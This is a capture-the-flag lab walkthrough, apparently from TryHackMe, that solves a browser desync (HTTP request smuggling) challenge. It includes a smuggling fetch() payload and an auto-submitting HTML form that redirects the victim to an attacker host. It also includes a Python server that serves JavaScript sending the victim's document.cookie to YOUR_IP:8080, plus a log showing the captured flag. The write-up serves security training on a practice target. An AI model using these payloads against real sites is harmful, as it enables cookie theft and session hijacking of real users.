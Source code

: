 # Challenge Help

In this task, we will look for a possible way to solve the challenge of the previous task.

Firstly, you have to add in your `/etc/hosts` file the following entry:

```
MACHINE_IP challenge.thm
```

It can be observed that utilizing the given payload and refreshing the page results in a 404 error page. This indicates that the web server is vulnerable to request smuggling browser desync.

```javascript
fetch('http://challenge.thm/', {
    method: 'POST',
    body: 'GET /redirect HTTP/1.1\r\nFoo: x',
    mode: 'cors',
})
```

Next, we can observe that the contact page does not correctly sanitize text input, potentially allowing us to send an arbitrary payload.

## Browser Desync Attack Vulnerable Functionality

Visiting `http://challenge.thm/securecontact` you can notice that the input from the message field is reflected but is not interpreted:

## Browser Desync Attack Secure Contact

The victim will instead visit another page `http://challenge.thm/vulnerablecontact` where the input will be interpreted.

## Browser Desync Attack Contact Vulnerable

Now, we just need to build our payload to redirect the victim user to fetch the second payload from our server:

```html
<form id="btn" action="http://challenge.thm/" method="POST" enctype="text/plain">
    <textarea name="GET http://YOUR_IP:1337 HTTP/1.1\r\nAAA: A">placeholder1</textarea>
    <button type="submit">placeholder2</button>
</form>
<script> btn.submit() </script>
```

Finally, we will serve a payload on our controlled server to steal the user's cookie and send it to us.

```python
#!/usr/bin/python3

from http.server import BaseHTTPRequestHandler, HTTPServer

class ExploitHandler(BaseHTTPRequestHandler):
    def do_GET(self):
        if self.path == '/':
            self.send_response(200)
            self.send_header("Access-Control-Allow-Origin", "*")
            self.send_header("Content-type", "text/html")
            self.end_headers()
            self.wfile.write(b"fetch('http://YOUR_IP:8080/' + document.cookie)")

def run_server(port=1337):
    server_address = ('', port)
    httpd = HTTPServer(server_address, ExploitHandler)
    print(f"Server running on port {port}")
    httpd.serve_forever()

if __name__ == '__main__':
    run_server()
```

Run it with the following command:

```sh
sudo python3 server.py
```

Note that the victim will make an additional request to port 8080; you can serve another Python web service by using:

```sh
sudo python3 -m http.server 8080
```

Now, after around a minute, you should get the flag!

```sh
Terminal
root@attackbox ~ [1]> sudo python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/)
- - [18/Jan/2024 10:49:51] "GET /flag=THM{REDACTED} HTTP/1.1" 404 -
```